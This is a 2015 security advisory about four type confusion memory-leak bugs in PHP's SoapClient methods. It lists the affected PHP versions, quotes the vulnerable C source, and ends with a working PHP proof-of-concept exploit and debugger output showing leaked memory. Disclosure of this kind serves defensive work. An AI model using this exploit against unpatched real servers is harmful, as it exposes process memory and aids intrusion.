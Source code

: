 # Type Confusion Infoleak Vulnerabilities in SoapClient
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.3.1 - Release Date: 2015.3.20
 
> Four type confusion vulnerabilities were discovered in SoapClient object's some methods that can be abused for leaking arbitrary memory blocks.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.7  
Affected is PHP 5.5 < 5.5.23  
Affected is PHP 5.4 < 5.4.39  
Affected is PHP 5.3 <= 5.3.29

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

```
PHP_METHOD(SoapClient, __getLastRequest)
{
	zval **tmp;
	
	if (zend_parse_parameters_none() == FAILURE) {
		return;
	}

	if (zend_hash_find(Z_OBJPROP_P(this_ptr), "__last_request", sizeof("__last_request"), (void **)&tmp) == SUCCESS) {
		RETURN_STRINGL(Z_STRVAL_PP(tmp), Z_STRLEN_PP(tmp), 1);
	}
	RETURN_NULL();
}
```
 
The Z_STRVAL_P macro lead to looking up an arbitrary valid memory address, and return a string via a doubles-type or integer-type zval that start from this memory address. If the memory address is an invalid memory position, it should result in a crash.

The Z_STRLEN_PP macro for accessing str.len member from the zvalue_value union, and return string's length. For integers the Z_STRLEN_PP macro is generally return 1, so a integer-type ZVAL can collide a string of length 1. The size of a double is 8 bytes, so on 32bit system a double-type ZVAL can collide a string of any length

The very similar bugs exists in SoapClient object's __getLastResponse(), __getLastRequestHeaders(), and __getLastResponseHeaders() methods.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.3 installation of PHP 5.5.14.

```
<?php

$z = new SoapClient(null, array('location' => "", 'uri' => ""));
$str = '';
for ($i = 0x100351e3d; $i < 0x100351e3d + 25; $i++) {
    $z->__last_request = $i;
    $str .= $z->__getLastRequest();
}
var_dump($str);

?>
```

Test the PoC on the command line, then output some memory blocks:

```
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run test.php
Process 6366 launched: '/usr/bin/php' (x86_64)
string(25) "UH??AWAVSPI??I??H????
                                 H"
Process 6366 exited with status = 0 (0x00000000) 
```
